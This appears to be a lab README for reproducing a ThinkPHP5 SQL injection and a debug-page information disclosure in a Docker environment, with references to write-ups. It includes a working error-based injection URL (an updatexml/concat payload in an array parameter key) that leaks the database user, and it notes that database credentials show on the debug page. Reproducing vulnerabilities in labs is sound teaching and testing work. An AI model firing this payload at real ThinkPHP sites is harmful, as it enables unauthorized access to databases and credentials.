


# ThinkPHP5 SQL Injection Vulnerability && Sensitive Information Disclosure Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

## Rationale

Details to read the references：

- https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html
- https://xz.aliyun.com/t/125

## Environment Setup

Enter the following command:

```
docker-compose up -d
```

Visiting `http://your-ip/index.php?ids[]=1&ids[]=2`, you'll see the username is displayed, indicating that the environment is running successfully.

## Exploit

Open the page `http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`，you will find messages revealed successfully：



And you can find the account and password of the database through the debug page.



This is another sensitive information disclosure vulnerability.
